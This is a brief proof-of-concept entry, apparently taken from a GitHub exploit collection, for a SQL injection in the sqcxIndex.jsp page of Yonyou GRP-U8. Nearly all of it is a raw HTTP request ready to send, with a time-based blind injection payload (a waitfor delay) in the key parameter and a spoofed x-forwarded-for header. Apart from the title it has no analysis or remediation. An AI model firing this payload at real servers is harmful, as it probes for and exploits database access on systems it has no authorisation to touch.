 # GRPU8_sqcxIndex_sqli
from:  https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BGRP-U8-sqcxIndex.jsp%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.4.29 @2

```
GET /u8qx/sqcxIndex.jsp?key=1');+waitfor+delay+'0:0:3'-- HTTP/1.1
Host: 
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=06D017067FC6F3BFA6150315042277B6
x-forwarded-for: 127.0.0.1
Connection: close
```
